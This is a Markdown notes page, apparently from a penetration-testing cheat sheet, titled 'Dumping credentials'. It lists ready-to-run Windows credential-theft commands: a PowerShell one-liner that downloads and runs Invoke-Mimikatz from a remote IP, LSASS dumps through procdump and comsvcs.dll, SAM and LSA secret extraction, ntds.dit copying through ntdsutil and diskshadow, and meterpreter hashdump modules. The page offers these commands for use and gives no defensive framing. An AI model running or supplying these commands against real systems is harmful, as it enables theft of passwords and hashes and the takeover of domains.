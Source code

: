 ```yaml
---
title: "Dumping credentials"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

Jump to:
  * [Local](#local)
  * [Remote](#remote)

## Local
Ways of dumping the lsass.exe process locally
***

#### Using in-memory Mimikatz using PowerShell (Work Out)
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
***

#### LSASS using Task manager
Right click on a the lsass.exe process and select 'Create Dump File'. This will require administrative rights. Hashes can now be dumped using Mimikatz.
```
sekurlsa::minidump <lsass.DMP locations>
sekurlsa::logonpasswords
```
***

#### LSASS using Procdump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
***

#### LSASS using (native) comsvcs.dll
```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
***

#### LSASS using the MiniDumpWriteDump API
Reference: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass
***

#### SAM using samdump2
Samdump2 is available for both Windows and Linux (Included in Kali). To decrypt the SAM you'll need the SYSTEM hive. When booted from an external medium you can extract both the SAM and SYSTEM file from 'C:\Windows\System32\Config\'. On Windows you can save it to a file using 'reg save':
```
reg save hklm\system system
reg save hklm\sam sam
```
Now you can use samdump2 to decrypt the SAM.
```
samdump2 system sam
```
***

#### LSA Secrets using Mimikatz
LSA Secrets are stored in the registry ('HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets'). You can directly extract them using Mimikatz.
```
token::elevate
lsadump::secrets
```
Or you can retrieve the SYSTEM- and SECURITY-file and dump the credentials after the fact.
```
reg save HKLM\SYSTEM system
reg save HKLM\security security
```
```
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
***

#### Cached Domain Credentials using mimikatz
```
lsadump::cache
```
***

#### Hashes directly from a domain controller using ntdsutil (lolbin)
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
The hashes can be dumped offline using secretsdump.py
```
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```
***

#### Hashes using diskshadow
Put the following commands in a .txt file.
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```
And execute the following commands
```
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```
The ntds.dit will be actracted and placed in the C:\exfil folder. Execute the following commands to perform cleanup.
```
diskshadow.exe
    > delete shadows volume trophy
    > reset
```
***

## Remote
***

#### Cached Domain Credentials using meterpreter
The 'hashdump' command in meterpreter will dump the local SAM account hashes.
```
hashdump
```
To dump cached domain credentials in the mscach format the 'cachedump' module can be used.
```
getsystem
use post/windows/gather/cachedump
run
```
The output will be in the 'mscache'-format.
***

#### Cached Domain Credentials using secretsdump

Obtain the SAM, SECURITY and SYSTEM hive. Either trough booting from an external medium or using reg.exe.
```
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```

After obtaining the hashes can be dumped using secretsdump from impacket.
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```